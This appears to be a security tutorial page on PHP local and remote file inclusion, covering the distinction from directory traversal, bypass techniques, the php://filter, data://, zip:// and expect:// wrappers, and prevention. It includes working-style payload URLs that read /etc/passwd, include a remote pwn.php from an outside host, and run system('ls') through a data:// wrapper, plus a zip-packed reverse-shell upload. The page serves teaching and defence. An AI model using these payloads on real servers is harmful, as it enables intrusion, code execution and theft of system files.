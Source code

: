 # File Inclusion vs Directory Traversal
File inclusion vulnerabilities arise when file paths are passed to `include` statements without sanitisation.

It is important to distinguish between file inclusion and [directory traversal](Directory%20Traversal.md) vulnerabilities, as these often get mixed up. A path traversal grants an adversary *direct* access to arbitrary files - the file is simply treated as if it were in the web root directory, even though it might be outside it.

In contrast, file inclusion allows for the "inclusion" of files in the application's running code. This can manifest in different ways. If the file included is a `.php` script, then a simple file inclusion will *execute* the PHP code inside it. If the file is not a PHP file, then its contents will be included somewhere on the page.

## Local File Inclusion (LFI)
A *local file inclusion (LFI)* vulnerability allows for the inclusion of local files, i.e. files which are located on the server itself. Such vulnerabilities can often lead to remote code execution if an adversary can upload to the server a file of their choosing. Another common venue of exploitation is log poisoning, whereby the adversary performs some actions in order to generate certain content in log files and then uses the LFI to execute the log file itself.

The most common place where LFIs occur is in URL file parameters. Consider the following example URL:

```
http://example.com/preview.php?file=index.html
```

If this is vulnerable to LFI, then an adversary can change the `file` parameter in order to include in the web page any file they like. For example, visiting

```
http://example.com/preview.php?file=../../../../../../../etc/passwd`
```

will result in the contents of `/etc/passwd` being displayed somewhere on the `preview.php` web page. 

~~~admonish example title="Example: Directory Traversal vs LFI"
If this were a path traversal instead (for example `http://example.com/../../../etc/passwd`), then the above would result in the direct *download* of the file `/etc/passwd` instead of its contents being included somewhere on the resulting web page.
~~~

## Remote File Inclusion (RFI)
A *remote file inclusion (RFI)* vulnerability allows us to include a file located on a remote host which is accessible via HTTP or SMB. They can be discovered by the same techniques used to find LFIs and path traversals, but instead of using a filename directly, one inserts an entire URL:

```
http://example.com/preview.php?file=http://192.168.0.23/pwn.php
```

These are usually rarer because they require specific configurations such as the `allow_url_include` option in PHP.

```admonish note
If a host is vulnerable to an RFI, they are usually vulnerable to an LFI as well.
```

# Advanced Techniques
Sometimes exploiting file inclusions is a bit more complicated. Consider the following line of code that may be present on the server:

```php
<?php include($_GET['file'].".php"); ?>
```

The `.php` extension is automatically appended to the result from `$_GET['file']` and so the `include` statement will actually be looking for a PHP file instead of the exact path that we want it to. There are, however, several ways to bypass this.

## Null Byte Injection
This can be bypassed by injecting a null byte at the end of the file path. To achieve this, simply append the URL encoding (`%00`) of a null byte to the end of the file path:

```
http://example.com/preview.php?file=../../../etc/passwd%00
```

A null byte denotes the end of a string and so any characters after it will be ignored. Even though the string (`http://example.com/preview.php?file=../../../etc/passwd%00.php`) that gets passed to `include` still ends in `.php`, this extension is preceded by a null byte and will thus be ignored.

## Path Truncation
Most installations of PHP limit a file path to 4096 bytes. If a file name is longer than this, then PHP simply truncates it by discarding any additional characters. Therefore, the `.php` extension can be dropped by pushing it over the 4096-byte limit. This can be achieved by URL encoding the file, using double encoding and so on.

## Filter Bypass
Sometimes filters are used to try and prevent file inclusions, but these can usually be bypassed using the same techniques used with [directory traversals](Directory%20Traversal.md#filter-bypass)

## PHP Wrappers
PHP wrappers augment file operation capabilities. There are many built-in wrappers which can be used with file system APIs, and developers can also implement custom ones. Wrappers can be found in pre-existing code on the web server or they can be injected by an adversary to enhance and further exploit a file inclusion vulnerability.

### PHP Filter Wrapper
The `php://filter` wrapper can be used to *display* the contents of sensitive files with or without encoding. It is especially useful because it allows us to *read* a PHP file on the server rather than execute it as a typical LFI would. 

The basic syntax for the `php://filter` wrapper is

```php
php://filter/ENCODING/resource=FILE
```

The encoding may or may not be present. One common encoding is `convert.base64-encode`.

~~~admonish example collapsible=true
Using the earlier example, the filter wrapper can allow an adversary to read the contents of the `preview.php` file itself!

```
http://example.com/preview.php?file=php://filter/resource=preview.php
```

The content can also be obtained in a Base64-encoded format by utilising the following payload:

```
http://example.com/preview.php?file=php://filter/convert.base64-encode/resource=preview.php
```

~~~

### Data Wrapper
The `data://` wrapper embeds content in a plaintext or Base64-encoded format into the code of the running web application and can be used to achieve code execution when we cannot directly poison or upload a PHP file to the server. 

```admonish note
The `data://` wrapper requires that the `allow_url_include` option is enabled.
```

The plaintext syntax is the following:

```php
data://text/plain,CODE
```

The Base64-encoding can be used to bypass firewalls and filters which remove common payload strings such as `"system"` or `"bash"`:

```php
data://text/plain;base64,BASE64-ENCODED CODE
```

~~~admonish example collapsible=true
To weaponise the `data://` wrapper in the previous example, an adversary can use the following payload:

```
http://example.com/preview.php?file=data://text/plain,<?php%20echo%20sy
stem('ls');?>
```

This would list the contents of the current directory. Alternatively, they could use the Base64 encoding of the same code:

```
http://example.com/preview.php?file=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oImxzKTsgPz4K
```
~~~

### Zip Wrapper
The `zip://` wrapper was introduced in PHP 7.2.0 for the manipulation of `zip` compressed files. Its basic syntax is this:

```php
zip://PATH TO ZIP#PATH INSIDE ZIP
```

~~~admonish note
The `#` character is usually used in its URL-encoded form, namely `%23`.
~~~

The best thing about the `zip://` wrapper is that it does not require the file to have a `.zip` extension. This means that this wrapper can be used to bypass file upload filters by changing the file extension to `.jpg` or any permitted extension.

~~~admonish example collapsible=true
An adversary can leverage the `zip://` filter by creating a reverse shell in a file `code.php` and then compressing it to `exploit.zip`. If there are any extension filters, then they are free rename the ZIP file to any extension they like but will have to account for this in the final payload. After uploading the malicious ZIP file to the server, they can navigate to it via

```
http://example.com/preview.php?file=zip://uploads/exploit.zip%23code.php
```

The server will then execute the reverse shell inside the malicious file. If the `.php` extension were automatically appended by the server, then one can just change the file name `code.php` to `code` before creating the ZIP archive.
~~~

### Expect Wrapper
The `expect://` wrapper is *disabled* by default since it is particularly dangerous, for it allows for direct code execution. Its syntax is

```php
expect://COMMAND
```

The wrapper will execute the `COMMAND` in Bash and return its result.

# Prevention
One should avoid passing user input to file system APIs entirely. If this is absolutely impossible to implement, then user input should be validated before processing. In the ideal case this should happen by comparing the input with a whitelist of permitted values. At the very least, one should verify that the user input contains only permitted characters such as alphanumeric ones.

After such validation, the user input should be appended to the base directory and the file system API should be used canonicalise the resulting path. Ultimately, one should verify that this canonical path begins with the base directory. 
